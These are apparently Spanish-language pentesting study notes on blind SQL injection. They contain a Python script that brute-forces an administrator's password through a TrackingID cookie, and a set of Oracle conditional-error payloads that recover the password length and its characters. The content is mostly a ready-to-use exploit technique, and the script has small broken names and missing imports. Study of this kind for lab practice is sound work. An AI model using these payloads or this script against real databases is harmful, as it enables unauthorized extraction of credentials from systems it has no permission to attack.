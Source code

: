 ```python

# Ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
characters = string.ascii_lowercase + string.digits

def MakeSQLI():

    password = ""
    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando fuerza bruta")
    time.sleep(2)
    p2 = log.progress("Password")

    for position in range(1, 21):
	    for character in characteres:
		    cookies = {
			    'TrackingID': "shasfdgh' and (select substring(password,%d,1) from users where username='administrator')='%s" % (position, character),
			    'session': 'ajeirbji'
		    }
		    p1.status(cookies['TrackingID'])
		    r = request.get(main_url, cookies=cookies)
		    if "Welcome back!" in r.text:         # Texto donde esta el error en la pagina, si sale eso es correcto 
			    password += character
			    p2.status(password)
			    break

if __name__ == '__main__':
    MakeSQLI()
```

## Inyección Blind con error condicional 

```bash 
# Esto es cuando miras un error '500 internal server error' o un '200 ok' cuando esta bien la consulta en  Oracle

❯ ' and (select 'a' from dual)='a'-- - 

# Si es erroneo, entonces no se generara la division (error) y nos devolvera una 'a', por lo que a=a = True. Si cambiamos el numero 2 por 1, entonces si hara la division y no nos devolvera la 'a'.
❯ ' and (select CASE when (1=2) then to_char(1/0) else 'a' end from dual)='a' -- -

# Saber la longitud de la pasword es verdadera generara el error '500', cuando ya no sea verdadero es ahi cuando sabremos la longitud de la password, porque nos regresara un 'ok'
❯ ' and (select CASE when lenth(password)>1 then to_char(1/0) else 'a' end from users where username='administrator')='a' -- -

# Si la primer letra de la password es igual a 'a' genera el error '500', de lo contrario recibiremos un 'ok'
❯ ' and (select CASE when substr(password,1,1)='a' then to_char(1/0) else 'a' end from users where username='administrator')='a' -- -
```
